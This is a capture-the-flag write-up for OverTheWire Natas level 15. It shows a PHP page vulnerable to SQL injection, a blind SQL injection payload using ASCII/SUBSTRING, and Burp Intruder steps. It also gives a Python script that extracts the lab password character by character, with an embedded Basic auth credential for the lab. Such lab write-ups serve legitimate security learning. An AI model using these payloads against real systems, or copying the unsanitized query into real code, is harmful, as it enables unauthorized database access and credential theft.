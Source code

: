 # Level 15
Pushing things further, this level deals with Blind SQL injection. We'll make a python script as well.

##  Quest
We are presented with a simple page that checks if a user exists or not.
![Level 15 Image](./images/Level15.png)

Backend code is similar to previous level with some important changes
```php
<?
/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas15', '<censored>');
    mysql_select_db('natas15', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }
    // If there is no error, we will get one of two response, depending on user input
    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>
```
<br/>
## Solution
From the source code, we can see that<br/>
 - Again <span id=yellow>unsanitized</span> user input is inserted into the query.<br/>
 - Although no output is displayed after query execution, we can make use of <span id=green>blind SQL injection</span>.<br/>
 - When query succeeds, we get _user exists_, and when it fails, we get _user doesn't exist_ msg.<br/>
 - Additionally, we can see that there is a debug parameter, which displays query on screen.<br/>
 - Lastly, there is a users table with `username` and `password` column.<br/>

Here is what was done.
1. Firstly, check if user `natas16` exist, it does, and we want its password.
2. Below is log from local linux lab to make use of `ascii` and `substring` functions to smuggle the password.<br/>


```sql
-- Testing query in Lab
-- Our Sample table
mysql> select * from books;
+---------+--------------+-----------+----------+
| book_id | name         | author    | released |
+---------+--------------+-----------+----------+
|       1 | Big Magic    | Elizabeth |        1 |
|       2 | Brown Farm   | AK        |        0 |
|       3 | Malgudi Days | R.K.N     |        1 |
+---------+--------------+-----------+----------+
3 rows in set (0.00 sec)

-- We compare first character of author name with ascii code  
-- Below is a successful attempt
mysql> select * from books where name = 'Big Magic' and ASCII(SUBSTRING(author, 1, 1)) = 69;
+---------+-----------+-----------+----------+
| book_id | name      | author    | released |
+---------+-----------+-----------+----------+
|       1 | Big Magic | Elizabeth |        1 |
+---------+-----------+-----------+----------+
1 row in set (0.00 sec)

-- Below is an unsuccessful attempt
mysql> select * from books where name = 'Big Magic' and ASCII(SUBSTRING(author, 1, 1)) = 70;
Empty set (0.00 sec)
```

Lets focus on second query
```sql
select * from books where name = 'Big Magic' and ASCII(SUBSTRING(author, 1, 1)) = 69;
```
`SUBSTRING(author, 1, 1)` refers to the first character and `ASCII` converts that first character to its ASCII code.
So, Above query will return a row if the ASCII code of first character of the name of author is equal to 69, i.e. E

We build our payload accordingly:<br/>
<span id=green>  Our payload -></span> `GET /index.php?username=natas16" AND ASCII(SUBSTRING(password,1,1))=65;#&debug=true HTTP/1.1`<br/>
Here, we are checking if the first character of password of user <u>natas16</u> has ascii code of 65 .i.e. A<br/>

Below is screenshot of our failed attempt in Burp. (Note the response _user doesn't exist_)

![Level 15 solution](./images/Level15_solution.png)

Below is a successfull attempt, our password begins with 'W', ascii code 87. (Note the response _user exists_)

![Level 15.1 solution](./images/Level15.1_solution.png)

Instead of manually searching for password char by char, we use <span id=green>Burp intruder</span>.<br/><br/>
We manually change `password(1,1)` -> `password(2,1)` for finding second character and so on. This process will repeat till we find all characters. Here password is 32 characters long. On 33rd attempt, intruder will not find any character and we know that we are done.

Intruder settings for the same are shown below
![Level 15.2 solution](./images/Level15.2_solution.png)

Intruder Payload settings are below. Now we start attack!.
![Level 15.3 solution](./images/Level15.3_solution.png)

Below is the screenshot of discovering the second password character.
![Level 14.4 solution](./images/Level15.4_solution.png)

We repeat this process 32 times to get the complete password for next Level.<br/><br/>It took me about an hour to smuggle password char by char with Burp community addition, so i decided to write a script to do the same, just for the fun of it.
<br/><br/>
This script does blind mysql injection till password is revealed
```python
 1 #!/usr/bin/env python3
 2
 3 import requests
 4 # Show have used auth, but it works for now.
 5 headers = {'Authorization': 'Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg=='}
 6 proxy = {'http': 'http://localhost:8080'}
 7
 8 password = ""
 9 pos = 1
10
11 while True:
12     if password:
13         payload = f'natas16" AND password = \'{password}\' ;#'
14         data = {'username': payload}
15         response = requests.post('http://natas15.natas.labs.overthewire.org/', data=data, headers=headers, proxies=proxy)
16         if response.status_code == 200  and "This user exists" in response.text:
17             print(f"\r{password}", end='', flush=True)
18             break
19
20     for i in range(33,128):
21         print(f"\r{password}{chr(i)}", end='', flush=False)
22         payload = f'natas16" AND ASCII(SUBSTRING(password,{pos},1)) = {i};#'
23         data = {'username': payload}
24         response = requests.post('http://natas15.natas.labs.overthewire.org/', data=data, headers=headers, proxies=proxy)
25         if response.status_code == 200:
26             if 'This user exists.' in response.text:
27                 password += chr(i)
28                 print(f"\r{password}{chr(i)}", end='', flush=True)
29                 #print(password)
30                 break
31             elif "This user doesn't exist" in response.text:
32                 continue
33             elif i == 127:
34                 break
35             else:
36                 print('Program flow should not reach here. Exiting')
37                 #return 2
38         else:
39             print(f"Status code: {response.status}")
40     pos += 1
41 # todo: refactor the code
```
<br/>
I Added a cool effect that displays the found characters and also searches for next character.

Below is a sample run of the script

<img src="https://grey-fish.github.io/Natas/images/natas15.gif">

<span id=green>Thats all folks!</span>

<br/>

[<< Back](https://grey-fish.github.io/Natas/index.html)
